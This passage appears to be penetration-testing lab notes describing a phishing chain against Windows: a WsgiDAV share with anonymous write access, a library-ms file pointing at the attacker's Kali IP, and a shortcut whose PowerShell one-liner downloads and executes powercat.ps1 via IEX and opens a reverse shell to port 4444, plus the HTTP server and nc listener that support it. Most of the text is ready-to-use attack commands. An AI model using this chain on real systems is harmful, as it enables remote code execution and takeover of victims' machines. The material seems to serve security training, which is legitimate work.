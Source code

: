 ```bash
04:47:04.861 - INFO    :   - '/': FilesystemProvider for path '/home/kali/beyond/webdav' (Read-Write) (anonymous)
04:47:04.861 - WARNING : Basic authentication is enabled: It is highly recommended to enable SSL.
04:47:04.861 - WARNING : Share '/' will allow anonymous write access.
04:47:04.861 - WARNING : Share '/:dir_browser' will allow anonymous read access.
04:47:05.149 - INFO    : Running WsgiDAV/4.0.2 Cheroot/8.6.0 Python 3.10.7
04:47:05.149 - INFO    : Serving on http://0.0.0.0:80 ...



<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.5</url> # ip for kali
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>

```

* Step 2  config shortcut file

right-click on the Desktop and select New > Shortcut ( On Windows Machine ) and transfer back to kali

```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.5:8000/powercat.ps1'); powercat -c 192.168.119.5 -p 4444 -e powershell"
```
* Step 3 Setup powercat and python3 server

```bash
kali@kali:~/beyond$ cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .

kali@kali:~/beyond$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```
* Step 4 nc listener

```bash
rlwrap nc -lvnp 4444
```
